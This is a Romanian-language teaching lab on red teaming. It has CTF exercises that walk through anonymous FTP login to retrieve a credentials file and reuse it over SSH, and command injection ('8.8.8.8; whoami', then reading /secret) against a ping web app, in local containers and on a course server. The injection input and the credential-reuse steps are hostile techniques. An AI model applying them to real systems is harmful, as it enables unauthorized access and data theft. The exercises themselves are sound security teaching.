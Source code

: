 ## Red Team

**Red Team** este acea echipă de specialiști care trebuie să gândească asemeni unui atacator.
Echipa este fie internă companiei în care activează, fie externă și activează la cererea companiei ce cumpară serviciile lor.
Scopul lor este să emuleze atacuri, să documenteze tot procesul și apoi să propună modalități de îmbunătățire a securității.

Este o modalitate **legală** pentru specialiști să își pună în practică cunoștințele și să ajute în același timp la securizarea diferitelor entități.

O parte din activitățile pe care **Red Team** le poate efectua sunt:

- Securitate fizică
  - Încearcă să intre în clădire, să fure dispozitive, să păcălească angajați
- Dumpster Diving
  - Caută în gunoi documente sau postit-uri cu parole
- Social Engineering
  - Phishing
  - Email-uri malițioase
- OSINT
  - Inventarierea sistemelor companiei
  - Scanarea sistemelor companiei
  - Verificare dacă emailurile companiei sunt compromise
- Exploatare activă a sistemelor
  - Utilizarea exploit-urilor publice
  - Inspecție manuală a serviciilor expuse

### Activități practice

Intrați în directorul `support/red-team/` și parcurgeți exercițiile de mai jos.

1. Accesați directorul `anonymous/remote/` și rulați comanda `make run`.
   Comanda va lansa în execuție un container `Docker` aferent challenge-ului `anonymous`.

   Containerul expune două porturi importante, și anume `10021` și `10022`.
   Portul `10021` expune serviciul `FTP` iar Portul `10022` expune serviciul `SSH`.
   Prima dată vom interacționa cu serviciul `FTP`.

   Puteți interacționa cu serviciul `FTP` folosind comanda:

   ```
   $ ftp 0.0.0.0 10021
   ```

   Serverul are funcționalitatea de `anonymous login` activată.
   Acest lucru este o practică greșită de aproape fiecare dată și trebuie evitată.
   Se poate folosi doar în cazurile în care vrem să expunem **în mod public** fișiere accesibile fără restricții.

   Pentru mai multe detalii, accesați secțiunea `What is anonymous FTP` de la următorul link:

   - [How to Use Anonymous FTP](https://www.rfc-editor.org/rfc/rfc1635.html)

   Utilizatorul `anonymous` este un utilizator limitat făcut cu scopul de a oferi acces public unor anumite resurse.
   Informația esențială din resursa indicată este că utilizatorul `anonymous` acceptă orice parola.

   Drept urmare, putem folosi următoarea succesiune de acțiuni în linie de comandă pentru a ne conecta la serverul ce rulează local:

   ```
   $ ftp 0.0.0.0 10021
   # introduceti manual: user: anonymous
   # introduceti manual: password: pass
   ```

   Rezultatul ar trebui să fie:

   ```
   Connected to 0.0.0.0.
   220 (vsFTPd 3.0.3)
   Name (0.0.0.0:long): anonymous
   331 Please specify the password.
   Password: 
   230 Login successful.
   Remote system type is UNIX.
   Using binary mode to transfer files.
   ftp>
   ```

   Pentru a lista fișierele la care avem acces, folosiți comanda `passive on` urmată de comanda `ls`.
   Rezultatul ar trebui să fie:

   ```
   ftp> passive on
   Passive mode: on; fallback to active mode: off.
   ftp> ls
   229 Entering Extended Passive Mode (|||65455|)
   150 Here comes the directory listing.
   -rw-r--r--    1 0        0              27 Oct 31 14:21 credentials.txt
   226 Directory send OK.
   ftp>
   ```

   Observăm că serverul expune fișierul `credentials.txt`.
   Deseori programatorii uită ce fișiere lasă publice și se pot ajunge la situații nedorite.

   Cum accesul la fișier este nerestricționat, acesta poate fi downloadat folosind comanda `get credentials.txt`.
   Rezultatul ar trebui să fie:

   ```
   ftp> get credentials.txt
   local: credentials.txt remote: credentials.txt
   229 Entering Extended Passive Mode (|||65437|)
   150 Opening BINARY mode data connection for credentials.txt (27 bytes).
   100% |******************************************************************************************************************************************|    27        0.42 KiB/s    00:00 ETA
   226 Transfer complete.
   27 bytes received in 00:00 (0.41 KiB/s) 
   ```

   Acum putem folosi comanda `exit` pentru a închide conexiunea cu serverul `FTP`.
   Rezultatul ar trebui să fie:

   ```
   ftp> exit
   221 Goodbye.
   ```

   Acum avem local fișierul `credentials.txt` al cărui conținut îl putem expune cu următoarea comandă:

   ```
   $ cat credentials.txt
   ```

   Rezultatul ar trebui să fie:

   ```
   $ cat credentials.txt
   ctf:anonymous-account-pass
   ```

   Cea mai des folosită sintaxă de precizare a credențialelor este de forma `username:parola`.
   Observăm că asta conține și fișierul nostru.

   Acum putem încerca să folosim credențialele pentru a ne loga prin intermediul `SSH`.
   Vom face acest lucru cu utilizatorul `ctf` și parola `anonymous-account-pass`.
   Comanda folosită este:

   ```
   ssh ctf@0.0.0.0 -p 10022
   # introducem manual parola `anonymous-account-pass`
   # introducem manual `yes` pentru a continua conectarea atunci cand suntem intrebati
   ```

   Rezultatul ar trebui să fie:

   ```
   $ ssh ctf@0.0.0.0 -p 10022
   The authenticity of host '[0.0.0.0]:10022 ([0.0.0.0]:10022)' can't be established.
   ED25519 key fingerprint is SHA256:r4/eDTkhYoYa8fgSaLMUsyQJAGsSaq+5rX2FGAB0CJc.
   This key is not known by any other names
   Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
   Warning: Permanently added '[0.0.0.0]:10022' (ED25519) to the list of known hosts.
   ctf@0.0.0.0's password: 
   Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-52-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

   This system has been minimized by removing packages and content that are
   not required on a system that users do not log into.

   To restore this content, you can run the 'unminimize' command.

   The programs included with the Ubuntu system are free software;
   the exact distribution terms for each program are described in the
   individual files in /usr/share/doc/*/copyright.

   Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
   applicable law.


   The programs included with the Ubuntu system are free software;
   the exact distribution terms for each program are described in the
   individual files in /usr/share/doc/*/copyright.

   Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
   applicable law.

   ctf@03ca22e3acdb:~$
   ```

   Listați conținutul fișierului `secret` disponibil la calea `/home/ctf/secret`.

   Odată ce aveți un input care funcționează corespunzator, încercați același input și la adresa `141.85.224.104:10021`.

1. Accesați directorul `pingme/remote/` și rulati comanda `make run`.
   Comanda va lansa în execuție un container `Docker` aferent challenge-ului `pingme`.
   O aplicație web minimală este expusă pe portul `10002` al mașinii locale.

   Observați că aplicația execută comanda `ping` către o adresă IP dată de utilizator.

   Putem presupune că aplicația execută într-o linie de comandă pe server următoarea comandă:

   ```
   $ ping <input>
   ```

   Unde `<input>` este orice introduce utilizatorul în câmpul din pagină.
   În consecință, un utilizator al aplicatiei **injecteaza comenzi** direct într-o linie de comandă aflată pe un server la distanță.

   Cunoscând faptul că operatorul `;` delimitează comenzi și permite rularea mai multor comenzi într-o singură linie, putem folosi `8.8.8.8; whoami` ca și input.
   În acest fel, comenzile care s-ar executa pe server conform presupunerilor noastre sunt:

   ```
   $ ping 8.8.8.8; whoami
   ```

   Validați presupunerile anterioare contra aplicației expuse pe `0.0.0.0:10002`.

   Scopul este să accesați fișierul `/secret` de pe server.
   Pentru a accesa acest fișier, folosiți utilitarul `cat` și faptul că aveți informația că fișierul căutat se află sub calea `/secret`.

   Odată ce aveți un input care funcționează corespunzător, încercați același input și la adresa `141.85.224.104:10002`.

### Quiz

[Quiz](../quiz/red-team.md)
